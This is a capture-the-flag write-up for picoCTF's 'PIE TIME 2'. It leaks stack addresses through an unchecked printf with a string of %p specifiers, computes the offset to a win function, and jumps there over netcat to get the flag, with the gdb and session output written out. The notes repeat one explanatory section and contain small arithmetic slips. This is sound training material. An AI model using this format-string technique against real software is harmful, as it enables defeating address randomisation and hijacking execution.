 ```c
Breakpoint 1, 0x00005555555552cf in call_functions ()
(gdb) print &main
$3 = (<text variable, no debug info> *) 0x555555555400 <main>
(gdb) print &win
$4 = (<text variable, no debug info> *) 0x55555555536a <win>
(gdb) c
Continuing.
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x555555559011 0x7ffff7e0b7a0 0x7ffff7e0b7a0 0x55555555904f (nil) 0x34000000340 0x7ffff7e0a5c0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 (nil) 0x63a01cdd3af77b00 0x7fffffffd210 0x555555555441 0x7fffffffd2b0 0x7ffff7c27675
 enter the address to jump to, ex => 0x12345: 55555555536a
You won!
Praise The Sun! \[T]/
[Inferior 1 (process 493583) exited normally]
(gdb)

```

0x555555555441 is our main return address
0x555555555400 - 0x555555555441 = 0x41

Then difference between main and win:
0x555555555400 - 0x55555555536a = 0x96

0x41 + 0x96 = 0xd7

This should be the offset between the return address and win
0x555555555441 - 0xd7 = 0x55555555536a
as required.

```c

󰣇 Pico/Binary/Pie 2 ❯ nc rescued-float.picoctf.net 60207                                                                  ℂ -gcc  3.13.5  15:02 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x5ecf96da72a1 (nil) 0x5ecf96da72df 0x7fff30dd8730 0x7c 0x72540cdea238 0x72540cddc6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 0x5ecf712451c0 0xb3c4d671a109e600 0x7fff30dd8790 0x5ecf71245441 (nil) 0x72540cc13083
 enter the address to jump to, ex => 0x12345: 5ecf7124536a
You won!
picoCTF{p13_5h0u1dn'7_134k_1e55cd55}
```

Noting that:
0x5ecf71245441 - 0xd7 = 0x5ecf7124536a


---
Aside
![[Pasted image 20250825151458.png]]

Normally to view addresses in c we use the following:
`printf("value: %p", &variable);`
But if we leave out the second argument like so:
`printf("value: %p");` printf see's %p and goes looking for the variable, but since we specify no variables it does following:
print the contents of rdi
for each %p we move through the potential argument registers starting from rdi, ending with r9.
Once we reach the 6th argument we start looking at the stack (rsp)
each consecutive %p will print a value moving down the stack (stack grows down)

Things that can potentially go on the stack. 
- Return addresses (where to return after function is done executing)
- Previous frame pointers.
- Callers registers. 
- Local variables
- Function arguments
- Spilled registers
- Padding
- Stack canaries
- Shadow Space (windows executable)
- Red Zones
- Exception pointers
- Cpu state
- Thread information
- Environment variables (near the end of the stack as it get's placed in first)
- Other stuff aswell probably (the stack is kinda a hoe ngl)


---
# Write up
PIE TIME 2
Rev engineering

Goal of the challenge is to jump to the address of the win function. To do this we need to examine the binary they gave gave us, somehow extract an address, then figure out how far that address is from the win function. This address will change each time we run the program so the offset this address and win is the main goal 

source code has the following:
```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);
```

Normally to view addresses in c we use the following:
`printf("value: %p", &variable);`
But if we leave out the second argument like so:
`printf("value: %p");` printf see's %p and goes looking for the variable, but since we specify no variables it assumes the variables are on the stack

for each %p we feed into the input, printf moves through potential argument registers starting from rdi through r9 (argument 1-6 in x86 arch) then moving into the stack pointer and starts printing out the addresses it encounters.
So after the 6th %p we start printing values from the stack pointer (rsp)
Each consecutive %p will print a value moving down the stack (stack grows down)

Things that can potentially go on the stack. 
- Return addresses (where to return after function is done executing)
- Previous frame pointers.
- Callers registers. 
- Local variables
- Function arguments
- Spilled registers
- Padding
- Stack canaries
- Shadow Space (windows executable)
- Red Zones
- Exception pointers
- Cpu state
- Thread information
- Environment variables (near the end of the stack as it get's placed in first)
- Other stuff aswell probably (the stack is kinda a hoe ngl)


Running the binary they gave us with gdb we can gather the following info:
```bash
Breakpoint 1, 0x00005555555552cf in call_functions ()
(gdb) print &main
$3 = (<text variable, no debug info> *) 0x555555555400 <main>
(gdb) print &win
$4 = (<text variable, no debug info> *) 0x55555555536a <win>
(gdb) c
Continuing.
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x555555559011 0x7ffff7e0b7a0 0x7ffff7e0b7a0 0x55555555904f (nil) 0x34000000340 0x7ffff7e0a5c0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 (nil) 0x63a01cdd3af77b00 0x7fffffffd210 0x555555555441 0x7fffffffd2b0 0x7ffff7c27675

enter the address to jump to, ex => 0x12345: 
```

Our goal is to jump into the win function which is currently at `0x55555555536a` on my machine but will be somewhere else on the host machine we connect to with netcat.

We're currently in the "call_functions" function which we enter through main like so:
```c
int main() {
  signal(SIGSEGV, (__sighandler_t) segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```
So the stack should have a return address saved to the memory location for "return 0"

Using gdb we know that main is at `0x555555555400` 
Examining the output from the %p's we can spot `0x555555555441` which should our return address since that's closest to main. hence `0x555555555441` points to "return 0" in memory.

The offset between the start of main from the gdb output and return 0 is then
0x555555555441 - 0x555555555400 = 0x41

And the offset between main and win is:
0x555555555400 - 0x55555555536a =  0x96

So in theory the offset between "return 0" and the main function should be:
0x41 + 0x96 = d7

Since we know the address of win we can quickly check this:
address of return address (return 0) - d7 = address of win
https://www.gigacalculator.com/calculators/hexadecimal-calculator.php
0x555555555441 - 47 = 55555555536a
Which is what we see in gdb.

**Connecting to the machine**:
Running the program again gives us the following:

```c

󰣇 Pico/Binary/Pie 2 ❯ nc rescued-float.picoctf.net 60207                                                                  ℂ -gcc  3.13.5  15:02 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x5ecf96da72a1 (nil) 0x5ecf96da72df 0x7fff30dd8730 0x7c 0x72540cdea238 0x72540cddc6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 0x5ecf712451c0 0xb3c4d671a109e600 0x7fff30dd8790 0x5ecf71245441 (nil) 0x72540cc13083
 enter the address to jump to, ex => 0x12345: 
```

5ecf71245441 - d7 = 5ecf7124536a


```c

󰣇 Pico/Binary/Pie 2 ❯ nc rescued-float.picoctf.net 60207                                                                  ℂ -gcc  3.13.5  15:02 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x5ecf96da72a1 (nil) 0x5ecf96da72df 0x7fff30dd8730 0x7c 0x72540cdea238 0x72540cddc6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 0x5ecf712451c0 0xb3c4d671a109e600 0x7fff30dd8790 0x5ecf71245441 (nil) 0x72540cc13083
 enter the address to jump to, ex => 0x12345: 5ecf7124536a
You won!
picoCTF{...
```


